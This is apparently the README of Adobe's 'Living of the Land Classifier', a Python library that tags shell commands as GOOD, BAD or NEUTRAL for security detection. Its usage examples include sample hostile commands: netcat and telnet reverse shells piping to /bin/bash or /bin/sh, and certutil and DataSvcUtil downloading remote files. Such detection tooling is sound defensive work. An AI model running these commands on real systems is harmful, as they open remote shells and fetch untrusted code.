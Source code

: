 # Living of the Land Classifier

This repository contains the source code and pre-trained models for the Living of the Land Classifier, designed by the Security Intelligence (SI) Team of the Security Coordination Center (SCC) @ Adobe.

## Quick start guide 

If you have experience with python and are eager to get started, check the [Quick start Jupyter Notebook](examples/01_quick_start.ipynb), instead of this documentation.

To get the library up and running in no time, use the following tutorial. If you want to build you own model, please refer to the ["Advanced usage and documentation"](#advanced-usage-and-documentation) section (below).


### Prerequisites

Before you proceed, make sure your system meets the following requirements:

* **Python 3.7+** installed and running on your system
* **PIP** package installer
* We recommend using a **virtual environment**. See the [official documentation](https://docs.python.org/3/library/venv.html) for details

### Quick installation

The easiest way to get LOL running is to use the `pip`:

You can use the following command directly on your system or in the virtual environment (recommended):

```bash
$ pip install lolc
```

To test the installation you can use the following scripts or `ipython` commands, which are also in the [Quick start Jupyter Notebook](examples/01_quick_start.ipynb):

####LINUX

```python
from lol.api import LOLC, PlatformType
lolc=LOLC(PlatformType.LINUX) # allowed parameters are PlatformType.LINUX and PlatformType.WINDOWS
commands=['nc -nlvp 1234 & nc -e /bin/bash 10.20.30.40 4321',
          'iptables -t nat -L -n',
          'telnet 10.20.30.40 5000 | /bin/sh | 10.20.30.50 5001']
classification, tags = lolc(commands)
for command, status, tag in zip (commands, classification, tags):
    print(command)
    print(status)
    print(tag)
    print("\n")
```

The output should be:

```text
nc -nlvp 1234 & nc -e /bin/bash 10.20.30.40 4321
BAD
IP_PRIVATE PATH_/BIN/BASH COMMAND_NC KEYWORD_-NLVP KEYWORD_-E nc_listener_to_shell LOOKS_LIKE_KNOWN_LOL

iptables -t nat -L -n
GOOD
COMMAND_IPTABLES KEYWORD_-T KEYWORD_-L KEYWORD_-N iptables_list

telnet 10.20.30.40 5000 | /bin/sh | 10.20.30.50 5001
BAD
IP_PRIVATE PATH_/BIN/SH COMMAND_TELNET telnet_sh LOOKS_LIKE_KNOWN_LOL
```

####WINDOWS

```python
from lol.api import LOLC, PlatformType
lolc=LOLC(PlatformType.WINDOWS) # allowed parameters are PlatformType.LINUX and PlatformType.WINDOWS
commands=['certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\\temp:ttt',
          'explorer.exe c:\\temp',
          'DataSvcUtil /out:C:\\Windows\\System32\\calc.exe /uri:https://11.11.11.11/xxxxxxxxx?encodedfile']
classification, tags = lolc(commands)
for command, status, tag in zip (commands, classification, tags):
    print(command)
    print(status)
    print(tag)
    print("\n")
```

The output should be:

```text
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt
BAD
COMMAND_CERTUTIL.EXE KEYWORD_dash_urlcache KEYWORD_dash_f KEYWORD_http certutil_downloader powershell_file

explorer.exe c:\temp
NEUTRAL
# this line is empty

DataSvcUtil /out:C:\Windows\System32\calc.exe /uri:https://11.11.11.11/xxxxxxxxx?encodedfile
BAD
IP_PUBLIC COMMAND_DATASVCUTIL DataSvcUtil_http KEYWORD_http
```

## Advanced usage and documentation

This documentation is still under development. We will provide complete examples accompanied by Jupyter Notebooks.

## Installation via GitHub (for advanced usage)
```bash
git clone git@github.com:adobe/libLOL.git
cd libLOL
virtualenv -p `which python3` venv
source venv/bin/activate
pip3 install -r requirements.txt
```

